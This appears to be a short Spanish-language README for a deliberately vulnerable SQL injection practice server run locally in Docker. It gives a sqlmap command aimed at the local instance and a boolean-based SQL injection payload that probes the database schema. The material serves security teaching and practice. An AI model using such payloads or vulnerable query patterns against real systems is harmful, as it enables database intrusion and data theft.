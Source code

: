 # SQL Injection

Descargar y Montar el servidor desde Docker usando un volumen con el Codigo Fuente de Github para editarlo:

```bash
git clone https://github.com/IngenieroRicardo/SQLInjection
docker pull ghcr.io/ingenieroricardo/sqlinjection:latest
docker run --publish 8080:80 -v ./SQLInjection:/app ghcr.io/ingenieroricardo/sqlinjection:latest
```

<hr>

Al tener las variables concatenadas puedes hacer inyeccion SQL:

```bash
sqlmap -u "http://127.0.0.1:8080/servidor.php?nombre=yo&mensaje=hola" -b
```

```bash
hola' RLIKE (SELECT IF(COUNT(DISTINCT(table_schema))=1, 'hola', 0x28) FROM INFORMATION_SCHEMA.TABLES) AND 'TMTd'='TMTd
```

